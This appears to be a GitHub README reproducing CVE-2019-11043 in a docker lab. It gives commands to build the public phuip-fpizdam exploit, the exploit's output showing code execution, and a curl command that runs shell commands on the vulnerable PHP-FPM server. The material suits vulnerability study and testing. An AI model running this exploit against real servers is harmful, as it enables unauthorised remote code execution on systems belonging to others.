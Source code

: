 ﻿# CVE-2019-11043

## Description

- PHP 5.6 : PHP-FPM Crash, DOS

- PHP 7.0 : RCE

- PHP 7.1 : RCE

- PHP 7.2 : RCE

- PHP 7.3 : RCE

| Item           | Value                                         | Remark |
| -------------- | --------------------------------------------- | ------ |
| Risk Level     | HIGH                                          |        |
| Attack Type    | Remote Code Execution                         |        |
| Attack Postion | URI                                           |        |
| Principle      | [Link](https://bugs.php.net/bug.php?id=78599) | %0A    |

## Environment

`php-fpm`:7.3.0 + `nginx`:1.14.2

```bash
# downlaod docker(include php-fpm and nginx)
docker pull lubinlew/cve-2019-11043

# run the docker
docker run -d -p 40080:80 --name cve-2019-11043 lubinlew/cve-2019-11043:latest
```

## Reappear

- Compile [POC](https://github.com/neex/phuip-fpizdam)
  
  ```bash
  git clone https://github.com/neex/phuip-fpizdam.git
  cd phuip-fpizdam
  go get -v && go build
  ```

- Run POC
  
  ```bash
  ./phuip-fpizdam http://<IP-Address>:40080/index.php
  
  2020/10/13 14:10:22 Base status code is 200
  2020/10/13 14:10:22 Status code 502 for qsl=1765, adding as a candidate
  2020/10/13 14:10:22 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
  2020/10/13 14:10:22 Attack params found: --qsl 1760 --pisos 49 --skip-detect
  2020/10/13 14:10:22 Trying to set "session.auto_start=0"...
  2020/10/13 14:10:22 Detect() returned attack params: --qsl 1760 --pisos 49 --skip-detect <-- REMEMBER THIS
  2020/10/13 14:10:22 Performing attack using php.ini settings...
  2020/10/13 14:10:22 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2020/10/13 14:10:22 Trying to cleanup /tmp/a...
  2020/10/13 14:10:22 Done!
  ```

- Now you can execute command with `?a=cmd`
  
  ```bash
  curl http://<IP-Address>:40080/index.php?a=id
  uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
  Hello World!
  ```

## References

http://blog.leanote.com/post/snowming/9da184ef24bd

https://bugs.php.net/bug.php?id=78599

[GitHub - neex/phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)
